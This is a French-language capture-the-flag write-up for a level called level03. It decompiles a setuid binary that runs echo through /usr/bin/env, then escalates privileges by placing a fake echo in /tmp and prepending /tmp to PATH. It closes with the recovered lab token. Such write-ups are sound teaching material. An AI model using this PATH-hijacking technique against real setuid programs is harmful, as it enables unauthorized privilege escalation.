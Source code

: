 # Rapport CTF - [level03]

### Observation:
En arrivant sur le niveau on trouve un exécutable nommé `level03` qui a été créé par flag03: `ls -la`

### Code:
Nous allons donc décompiler le code pour pouvoir le comprendre.
On utilise la commande `scp` pour ramener l'exécutable sur notre pc:
`scp -P {PORT} level03@localhost:/home/user/level03/level03 .`

En décompilant grace a Ghidra ou Hex-Ray nous obtenons le code suivant:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
__gid_t v4; // [esp+18h] [ebp-8h]
__uid_t v5; // [esp+1Ch] [ebp-4h]

v4 = getegid();
v5 = geteuid();
setresgid(v4, v4, v4);
setresuid(v5, v5, v5);
return system("/usr/bin/env echo Exploit me");
}
```
On remarque que le `echo` est lancé depuis l'env.



### Solution :
Nous avons donc 2 solutions:
 1. Changer la variable d'environnement echo
 2. Ajouter une variable d'environnement echo qui lance une commande

Nous allons faire cette 2eme solution, car c'est la plus simple à enlever.
La première étape consiste a créer un fichier qui se nomme echo avec la commande à exécuter à l'intérieur:
`echo /bin/getflag > /tmp/echo`
Nous devons aussi lui donné les droits d'être exécuté par un autre programme:
`chmod 777 /tmp/echo`

Puis on ajoute notre chemin d'accés à notre echo dans les variables d'environnement:
`export PATH=/tmp:$PATH`

On lance ensuite notre programme, `./level03`

Et il nous donne directement le mot de passe de l'utilisateur level04 sans avoir besoin de passer par le flag03.

token : qi0maab88jeaj46qoumi7maus

